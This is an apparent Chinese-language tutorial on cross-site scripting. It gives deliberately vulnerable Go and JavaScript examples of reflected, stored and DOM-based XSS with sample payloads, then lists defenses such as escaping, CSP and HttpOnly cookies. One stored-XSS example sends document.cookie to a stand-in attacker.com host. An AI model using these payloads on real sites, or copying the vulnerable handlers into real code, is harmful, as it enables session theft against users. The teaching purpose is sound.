 ```yaml
---
title: XSS Attack
createTime: 2025-1-27
author: ZQ
permalink: /network/webserver/xss/attack/
tags:
  - web
---
```


## 概述

跨站脚本攻击（Cross-Site Scripting，XSS）是一种常见的Web安全漏洞。攻击者通过在网页中注入恶意的客户端脚本，使其在用户的浏览器上执行，从而获取用户的敏感信息，如Cookie、会话令牌等，或者执行其他恶意操作。

### 原理

+ 输入验证不足：Web应用程序未对用户输入进行充分的验证和过滤，直接将用户输入渲染到页面中。
+ HTML注入：攻击者能够将HTML标签和JavaScript代码注入到网页中。
+ 脚本执行：注入的恶意代码在用户浏览器中被解析并执行。

## 实验

### 反射型XSS演示

使用`gin`框架实现一个简单的搜索功能，展示反射型XSS漏洞。完整示例代码可在[github](https://github.com/Zqzqsb/WebSecurityDemos/tree/main/XSS_Inject)查看。

```go
// Reflected XSS endpoint - vulnerable to XSS attacks
func searchHandler(c *gin.Context) {
    query := c.Query("q")
    // Unsafe: directly reflecting user input
    result := "Search results for: " + query
    c.Header("Content-Type", "text/html")
    c.String(http.StatusOK, result)
}
```

### 反射型XSS

反射型XSS是最简单的XSS攻击形式，攻击者将恶意代码作为URL参数传入，服务器将其直接反射到响应页面中。

当攻击者构造以下URL：
```
http://example.com/search?q=<script>alert('XSS!');</script>
```

服务器响应的HTML内容为：
```html
Search results for: <script>alert('XSS!');</script>
```

浏览器解析这段HTML时会执行JavaScript代码，弹出警告框。

### 存储型XSS

存储型XSS通过将恶意代码存储在服务器数据库中，当其他用户访问包含该内容的页面时触发攻击。

```go
// Stored XSS vulnerability in comment system
func commentHandler(c *gin.Context) {
    content := c.PostForm("content")
    // Unsafe: storing unfiltered user input
    db.Create(&Comment{Content: content})
    c.Redirect(http.StatusFound, "/")
}
```

攻击者提交包含恶意代码的评论：
```html
<script>
    var cookie = document.cookie;
    new Image().src = "http://attacker.com/steal?cookie=" + cookie;
</script>
```

当其他用户访问评论页面时，恶意脚本会执行并将用户的Cookie发送给攻击者。

### DOM型XSS

DOM型XSS利用JavaScript动态修改页面DOM结构时的漏洞，不需要与服务器交互。

```javascript
// Unsafe DOM manipulation
function showGreeting() {
    var name = document.getElementById('userInput').value;
    document.getElementById('output').innerHTML = 'Hello, ' + name + '!';
}
```

攻击者输入：
```html
<img src=x onerror="alert('DOM XSS!');">
```

当JavaScript将这段内容插入DOM时，`onerror`事件处理器会被触发，执行攻击代码。

### URL片段攻击

DOM型XSS的另一种形式是通过URL片段（fragment）进行攻击：

```javascript
// Unsafe handling of URL fragment
if(window.location.hash) {
    var hash = window.location.hash.slice(1);
    document.getElementById('output').innerHTML = decodeURIComponent(hash);
}
```

攻击者构造URL：
```
http://example.com/#<script>alert('URL Fragment XSS!');</script>
```

## 防护措施

1. 输入验证和过滤
```go
// Safe: escaping HTML content
safeContent := template.HTMLEscapeString(content)
```

2. 使用安全的模板系统
```go
// Safe: using template engine's auto-escaping
tmpl.Execute(w, data)
```

3. 内容安全策略（CSP）
```http
Content-Security-Policy: default-src 'self'; script-src 'self'
```

4. 输出编码
```javascript
// Safe: using textContent instead of innerHTML
element.textContent = userInput;
```

5. HttpOnly Cookie
```go
c.SetCookie("session", token, 3600, "/", "", true, true)
```

6. 验证URL和文件上传
```go
// Validate URLs
if !isValidURL(url) {
    return errors.New("invalid URL")
}
```

## 总结

XSS攻击利用了Web应用程序对用户输入处理不当的漏洞。通过实施适当的安全措施，如输入验证、输出编码和内容安全策略，可以有效防止XSS 攻击。在开发Web应用时，应始终遵循安全编码实践，确保用户数据的安全处理。